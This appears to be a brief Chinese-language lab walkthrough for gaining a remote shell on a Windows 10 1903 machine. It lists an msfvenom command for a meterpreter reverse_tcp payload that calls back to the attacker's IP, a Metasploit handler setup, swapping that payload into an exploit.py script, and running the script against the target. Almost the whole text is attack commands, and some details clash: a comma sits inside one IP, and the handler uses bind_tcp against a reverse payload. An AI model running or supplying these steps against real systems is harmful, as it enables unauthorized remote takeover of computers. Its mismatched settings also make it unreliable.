

# 实验环境

攻击机 192.168,234.140(kali)

靶机   192.168.234.152(windows10_1903)

# msfvenom生成payload

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.234.140 LPORT=4444 -b '\x00' -i 1 -f python

# msf监听

use exploit/multi/handler

set payload windows/x64/meterpreter/bind_tcp

set lport 4444

set rhost 192.168.234.140

run

# poc替换

将exploit.py中USER_PAYLOAD中的payload换成msfvenom生成的payload

# getshell

python3 exploit.py -ip 192.168.234.152

